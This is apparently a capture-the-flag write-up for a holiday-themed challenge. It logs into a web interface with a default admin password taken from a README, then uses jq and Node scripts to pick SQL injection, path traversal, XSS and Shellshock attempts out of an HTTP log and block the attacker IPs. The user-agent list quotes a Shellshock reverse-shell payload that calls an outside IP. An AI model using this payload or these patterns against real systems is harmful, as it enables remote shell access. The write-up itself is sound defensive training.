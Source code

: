 # Filter out poisoned sources of Weather Data

We're given the link to a web interface and a gzipped log file. First, let's get into the web interface.

You might remember that [challenge 10](recover-document.html) gives you a PDF documenting the new sleigh navigation system. If you browse through this PDF you'll find it mentions the default username/password are in the `README.md`.

If we go to the interface `/README.md`, we can download the readme and find the default password:

```
You can login using the default admin pass:

`admin 924158F9522B3744F5FCD4D10FAC4356`

```

Now that we're in the web interface we can look at the API docs:

```
To Update The Measurements For a Specific Global Elf Weather Station:

HTTP POST REQUEST TO http://srf.elfu.org/api/measurements
Content-Type: application/json

{
  "coord": {
    "lon": 19.04,
    "lat": 47.5
  },
  "weather": [
    {
      "id": 701,
      "main": "Mist",
      "description": "mist",
      "icon": "50d"
    }
  ],
  "base": "stations",
  "main": {
    "temp": 3,
    "pressure": 1016,
    "humidity": 74,
    "temp_min": 3,
    "temp_max": 3
  },
  "visibility": 5000,
  "wind": {
    "speed": 1.5
  },
  "clouds": {
    "all": 75
  },
  "dt": 1518174000,
  "sys": {
    "type": 1,
    "id": 5724,
    "message": 0.0038,
    "country": "HU",
    "sunrise": 1518155907,
    "sunset": 1518191898
  },
  "station_id": "abcd1234",
  "name": "Budapest",
  "cod": 200
}

All Station IDS: GET /api/stations
All Stations Weather Data: GET /api/weather?station_id=*
One Stations Weather Data: GET /api/weather?station_id=abcd1234
Multiple Specific Stations Weather Data: GET /api/weather?station_id=abcd1234,abcd1235
```

So now we know the poison requests will be `POST /api/measurements`. Let's start looking through our logs. First, look at the structure for each object:

```
$ jq '.[0]' http.log
{
  "ts": "2019-10-05T06:50:42-0800",
  "uid": "ClRV8h1vYKWXN1G5ke",
  "id.orig_h": "238.27.231.56",
  "id.orig_p": 60677,
  "id.resp_h": "10.20.3.80",
  "id.resp_p": 80,
  "trans_depth": 1,
  "method": "GET",
  "host": "srf.elfu.org",
  "uri": "/14.10/Google/",
  "referrer": "-",
  "version": "1.0",
  "user_agent": "Mozilla/5.0 (Windows; U; Windows NT 5.1; fr; rv:1.9.2b4) Gecko/20091124 Firefox/3.6b4 (.NET CLR 3.5.30729)",
  "origin": "-",
  "request_body_len": 0,
  "response_body_len": 232,
  "status_code": 404,
  "status_msg": "Not Found",
  "info_code": "-",
  "info_msg": "-",
  "tags": "(empty)",
  "username": "-",
  "password": "-",
  "proxied": "-",
  "orig_fuids": "-",
  "orig_filenames": "-",
  "orig_mime_types": "-",
  "resp_fuids": "FUPWLQXTNsTNvf33",
  "resp_filenames": "-",
  "resp_mime_types": "text/html"
}
```

We're told there's probably a bunch of nasty stuff, so we can look for common web attack techniques in the logs. We'll match based on some generic stuff then put all the IPs in a file:

```bash
$ # SQLi
$ jq '. | map(select(.uri | contains("'"'"'"))) | map(."id.orig_h")' http.log > bad_ips
$ jq '. | map(select(.user_agent | contains("'"'"'"))) | map(."id.orig_h")' http.log >> bad_ips
$ jq '. | map(select(.username | contains("'"'"'"))) | map(."id.orig_h")' http.log >> bad_ips

$ # LFI
$ jq '. | map(select(.uri | contains("../"))) | map(."id.orig_h")' http.log >> bad_ips
$ jq '. | map(select(.uri | contains("pass"))) | map(."id.orig_h")' http.log >> bad_ips

$ # XSS
$ jq '. | map(select(.uri | contains("<"))) | map(."id.orig_h")' http.log >> bad_ips
$ jq '. | map(select(.host | contains("<"))) | map(."id.orig_h")' http.log >> bad_ips

$ # Shellshock
$ jq '. | map(select(.uri | contains(":; };"))) | map(."id.orig_h")' http.log >> bad_ips
$ jq '. | map(select(.user_agent | contains(":; };"))) | map(."id.orig_h")' http.log >> bad_ips

$ # Flatten a bunch of concatenated arrays
$ jq -s '. | flatten' bad_ips > bad_ips_clean
$ jq '. | length' bad_ips_clean
89
```

This targets, in order, LFI, SQL Injection, Shellshock, and XSS.

Now we can try to find other requests that have things in common with these, such as user agents. You can repeat the above script, replacing `."id.orig_h"` with `.user_agent` to find all the useragents that were responsible for a malicious request.

```
$ cat bad_agents
[
  "Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6.",
  "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 500.0)",
  "Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)",
  [ ... ]
  "() { :; }; /usr/bin/ruby -rsocket -e'f=TCPSocket.open(\"227.110.45.126\",43870).to_i;exec sprintf(\"/bin/sh -i <&%d >&%d 2>&%d\",f,f,f)'"
]
```

There's a chance some of these are actually normal though, so we'll not use useragents that end up being too common (>= 9 requests). From there, we just need to search for IPs that used any useragent on that list. I used Node for this part:


```js
var fs = require('fs');
var sus_agents = JSON.parse(fs.readFileSync('./bad_agents'));
var all_records = JSON.parse(fs.readFileSync('./http.log'));

var agent_counts = sus_agents.map(x => ({count: all_records.filter(y => y.user_agent == x).length, agent: x}));
console.log("Suspicious agents: " + agent_counts.length);

var bad_agents = agent_counts.filter(x => x.count < 9).map(x => x.agent);
console.log("Probably bad agents: " + bad_agents.length);

var filtered = all_records.filter(x => bad_agents.includes(x.user_agent));
filtered = filtered.filter((x, i) => filtered.indexOf(x) === i);

console.log("Found " + filtered.length + " unique IPs:");
console.log(filtered.map(x => x['id.orig_h']).join(", "));
```

```
$ node pivot.js
Suspicious agents: 89
Probably bad agents: 72
Found 97 unique IPs:
42.103.246.250, 42.103.246.130, 42.103.246.130, 42.103.246.130, ...
```

Now we just need to paste our comma-seperated list into the firewall, hit deny, and we get our token.